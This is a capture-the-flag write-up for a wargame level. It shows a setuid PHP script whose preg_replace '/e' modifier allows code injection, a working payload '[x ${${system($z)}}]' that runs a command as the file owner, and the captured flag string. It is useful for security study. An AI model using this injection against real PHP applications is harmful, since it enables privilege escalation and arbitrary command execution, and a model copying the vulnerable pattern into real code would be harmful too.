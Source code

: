 # level06

Home contains two files : a compiled PHP script `level06`, and its source code in `level06.php`.

A quick `ls -la` tells us that `level06` belongs to user `flag06`, and that it can run as sudo (`rws`) :

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
```

We examine the source code in `level06.php` (reformatted for readability) :

```
     1  #!/usr/bin/php
     2  <?php
     3
     4  function y($m) {
     5      $m = preg_replace("/\./", " x ", $m);
     6      $m = preg_replace("/@/", " y", $m);
     7      return $m;
     8  }
     9
    10  function x($y, $z) {
    11      $a = file_get_contents($y);
    12      $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    13      $a = preg_replace("/\[/", "(", $a);
    14      $a = preg_replace("/\]/", ")", $a);
    15      return $a;
    16  }
    17
    18  $r = x($argv[1], $argv[2]);
    19  print $r;
    20
    21  ?>
```

The script can be ran with `./level06 filename unused_second_argument`. It reads the file supplied as argument, applies a few Regex match replacements on it, and returns the result.

What can we exploit ? The vulnerability is found at line 12, `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`. The `/e` (for 'eval') is a now-deprecated regex option that replaces the match with the *execution* of the second parameter. This means a match here will be replaced by the PHP execution of the code `y("\2")`.

We have our base ingredients. Couple things to note :

- The regex matches `[x *]`, `*` being anything
- The `\2` refers to the regex group. Group 1 is `[x *]`, group 2 is `*`
- We can still execute code in the double-quotes, if we use `${${code_to_execute}}`
- We can use the unused argument `$z` (or `$argv[2]`) to our advantage

Knowing this, we write to a file :

```
echo '[x ${${system($z)}}]' > /tmp/file.txt
```

`[x ${${system($z)}}]` will match the regex, `\2` will be `${${system($z)}}`, so `system($z)` will be executed.

We can now execute our script with the following arguments :

```
./level06 /tmp/file.txt getflag
```

## The flag

The script runs `system("getflag")`, and we get the level 06 flag :

```
wiok45aaoguiboiki2tuin6ub
```